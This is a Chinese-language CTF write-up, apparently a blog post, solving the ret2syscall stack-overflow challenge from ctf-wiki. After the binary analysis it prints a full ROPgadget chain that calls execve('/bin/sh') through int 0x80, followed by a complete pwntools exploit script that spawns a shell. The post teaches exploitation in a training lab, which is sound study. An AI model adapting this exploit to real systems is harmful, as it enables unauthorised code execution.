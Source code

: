 ```yaml
---
layout: post
title: CTF-PWN实例2（ret2syscall）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/2
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例2（ret2syscall）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall

## 程序保护：

```shell
$ checksec ret2syscall
```

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

首先这里开启了NX保护。

## 程序信息：

一般我们还需要查看程序的信息，如静态链接动态链接等信息，前期未介绍是因为没有用上，这里就刚好需要。

```shell
$file rop

rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=2bff0285c2706a147e7b150493950de98f182b78, not stripped
```

这里需要注意的就是statically linked。表示静态链接，

## 解题：

### 一、IDA分析程序溢出点

IDA分析main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

这里依旧是gets()函数造成溢出。但是没有了system函数调用，这里想利用这个溢出将比较困难。

### 二、cyclic和pwndbg判断偏移量

偏移量依然是112，就不做过多篇幅。

### 三、编写EXP

思路：

这时候我们需要用到一个概念：只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。

比如说这里我们利用如下系统调用来获取 shell

```
execve("/bin/sh",NULL,NULL)
```

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb（exeve的系统调用号为0xb）
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

这时候我们需要的就是想办法给对应的寄存器赋值。在汇编中，当栈顶是10时，执行pop eax，这时候eax的值就是10了。所以我们就可以一次一次拼凑出一个shell。

这里介绍一个工具ROPgadget能够帮助我们分析程序生成shell调用的代码段。当然也可以自己一步一步的获取到地址进行拼接。

```shell
$ROPgadget --binary ./rop --ropchain
```

最后生成一个python的模板，非常方便。

```python
#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x0806eb6a) # pop edx ; ret
	p += pack('<I', 0x080ea060) # @ .data
	p += pack('<I', 0x080bb196) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806eb6a) # pop edx ; ret
	p += pack('<I', 0x080ea064) # @ .data + 4
	p += pack('<I', 0x080bb196) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806eb6a) # pop edx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x08054590) # xor eax, eax ; ret
	p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481c9) # pop ebx ; ret
	p += pack('<I', 0x080ea060) # @ .data
	p += pack('<I', 0x0806eb91) # pop ecx ; pop ebx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x080ea060) # padding without overwrite ebx
	p += pack('<I', 0x0806eb6a) # pop edx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x08054590) # xor eax, eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x0807b5bf) # inc eax ; ret
	p += pack('<I', 0x08049421) # int 0x80
```

这时候编写exp就非常简单了，只需要将p参数拼接在溢出位置就可以了。

exp代码：

```python
#!/usr/bin/env python
# coding=utf-8
from struct import pack

# Padding goes here
p = ''

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080bb196) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080bb196) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x0806eb91) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080ea060) # padding without overwrite ebx
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x08049421) # int 0x80

from pwn import *
r = process('./rop')
r.sendline('a'*112+p)
r.interactive()

```

## 总结

这里就介绍一下几个词，为了避免弄混，先将例子解决了再来看概念。

ROP：其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。